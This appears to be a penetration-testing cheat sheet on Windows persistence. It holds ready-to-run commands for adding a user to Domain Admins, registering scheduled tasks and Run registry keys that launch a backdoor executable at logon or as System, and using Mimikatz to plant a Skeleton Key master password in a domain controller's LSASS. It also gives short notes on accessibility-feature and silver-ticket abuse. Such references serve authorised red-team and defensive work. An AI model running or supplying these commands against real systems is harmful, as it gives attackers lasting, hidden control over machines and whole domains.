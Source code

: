 # Windows

## Guides

3 good guides:

* 
{% embed url="https://www.mdsec.co.uk/2019/05/persistence-the-continued-or-prolonged-existence-of-something-part-1-microsoft-office/" %}

{% embed url="https://www.mdsec.co.uk/2019/05/persistence-the-continued-or-prolonged-existence-of-something-part-2-com-hijacking/" %}

{% embed url="https://www.mdsec.co.uk/2019/05/persistence-the-continued-or-prolonged-existence-of-something-part-3-wmi-event-subscription/" %}

## Add User

Commands: 

`net user "username" "password" /ADD` 

`net group "Domain Admins" %username% /DOMAIN /ADD` 

Change user password 

`net user USERNAME *` 

Using Powershell:

`Add-LocalGroupMember -Group Administrators -Member hacker`

## Scheduled task

### SharpPresist

[https://github.com/fireeye/SharPersist](https://github.com/fireeye/SharPersist) 

Create a Scheduled task: 

`Execute-assembly ~/Downloads/SharPersist.exe -t schtask -c "C:\Windows\System32\cmd.exe" -a "/c echo 123 >> c:\123.txt" -n "Some Task" -m add -o hourly` 

Or 

`SharPersist -t schtask -c "C:\Windows\Microsoft.NET\Framework\v4.0.30319\Msbuild.exe" -a "C:\Users\John\msbuild.csproj" -n "Test" -m add -o hourly` 

Delete a Scheduled task: 

`SharPersist -t schtask -n "Test" -m remove` 

### PowerShell 

```text
PS C:\> $A = New-ScheduledTaskAction -Execute "cmd.exe" -Argument "/c C:\Users\Rasta\AppData\Local\Temp\backdoor.exe" 
PS C:\> $T = New-ScheduledTaskTrigger -AtLogOn -User "Rasta" 
PS C:\> $P = New-ScheduledTaskPrincipal "Rasta" 
PS C:\> $S = New-ScheduledTaskSettingsSet 
PS C:\> $D = New-ScheduledTask -Action $A -Trigger $T -Principal $P -Settings $S 
PS C:\> Register-ScheduledTask Backdoor -InputObject $D 
```

### Command Line 

`shell schtasks /create /tn Test /tr "c:\windows\system32\cmd.exe /c c:\Users\JOHN\Downloads\backdoor.exe" /sc onlogon /ru System` 

## Registry Key

### SharpPresist: 

[https://github.com/fireeye/SharPersist](https://github.com/fireeye/SharPersist) 

Create a Registry Key: 

`SharPersist -t reg -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -k "hkcurun" -v "Test Stuff" -m add` 

Delete a Registry Key: 

`SharPersist -t reg -k "hkcurun" -v "Test Stuff" -m remove` 

### Command Line 

`shell reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" /v Test /t REG_SZ /d "C:\Windows\System32\cmd.exe"` 

Delete: 

`reg delete  Registry_key_path /v Registry_value_name` 

## Accessibility Features

The accessibility features provide additional options \(on screen keyboards, magnifier, screen reading etc.\) that could assist people with disabilities to use Windows operating systems easier. However, this functionality can be abused to achieve persistence on a host that RDP is enabled and Administrator level privileges have been obtained. This technique touches the disk, or modification of the registry is required to execute a stored remotely payload. 

[https://pentestlab.blog/2019/11/13/persistence-accessibility-features/](https://pentestlab.blog/2019/11/13/persistence-accessibility-features/)

## Silver Tickets

Computers change their account passwords every 30 days, but this is initialized by the client, not Active Directory. extract the host computer account hash, set a specific registry key, and you can regain access indefinitely. 

## Skeleton Key

The method injects itself into LSASS and creates a master password that will work for any account in the domain.

* The Skeleton Key only works for Kerberos RC4 encryption
* The Skeleton Key is a backdoor that runs on the Domain Controller \(in memory\) allows single password \(the skeleton password\) that can be used to log on to any account;

Run it on a DC using Mimikatz:

```text
privilege::debug
misc::skeleton
```

[https://pentestlab.blog/2018/04/10/skeleton-key/](https://pentestlab.blog/2018/04/10/skeleton-key/)

